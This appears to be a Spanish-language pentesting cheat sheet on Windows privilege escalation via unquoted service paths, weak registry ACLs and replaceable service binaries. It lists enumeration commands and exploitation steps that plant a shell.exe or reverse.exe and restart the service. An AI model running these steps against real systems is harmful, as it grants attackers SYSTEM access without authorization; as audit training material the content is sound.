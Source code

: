 ```

```
### Unquoted Service Path
- Esta missconfiguration ocurre cuando la ruta de un binario o app no tiene "" entonces se puede aprovechar para poder escalar los privilegios, ya que es como los PATH de Linux, Windows va buscando de archivo en archivo si el .exe esta en ella por lo que nosotro debemos mirar toda las rutas del archivo si tenemos permisos de escritura así poder colocar una shell con el nombre del .exe que anda buscando Windows

```
> winPEASS quiet servicesinfo 

> accesschk.exe /accepteula -ucqv user <nombre>

> accesschk.exe /accepteula -uwdq "C:\" para ir comprobando sucesivamente la rura de una en una 

> copy shell.exe C:\PROGRAM DATA\app.exe

> net start <nombre>

```


### Weak Registry Permissions
- Windows guarda registros para cada servicio, por lo que tiene un ACLs, si el ACL (Access Control List) no esta bien configurada se puede aprovechar de esta para elevar los privilegios

```
> winPEASS quiet servicesinfo

> accesschk.exe /accepteula -uvwqk REGISTRO

> accesschk.exe /accepteula -ucqv user regsvc

> reg query RUTA DEL REGISTRO para veer donde se encuentra el ImagePath

> reg add RUTA del regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Temp\reverse.exe /f

> net start regsvc
```

### Insecure Service Executables
- Si el servicio original es modificable por un usuario normal, podemos simplemente replazar por una shell.exe **SI ESTÁS EXPLOTANDOLO EN UNA AUDITORIA RECUERDA HACER UNA BACKUP DEL SRVICIO ORIGINAL**

````
> accesschk.exe /accepteula -quvw RUTA 

> acesschk.exe /accepteula -uvqc filepermsvc

> copy /Y shell.exe "RUTA DONDE QUIERES SUSTITUIR EL SERVICIO"

> net start filepermsvc

````
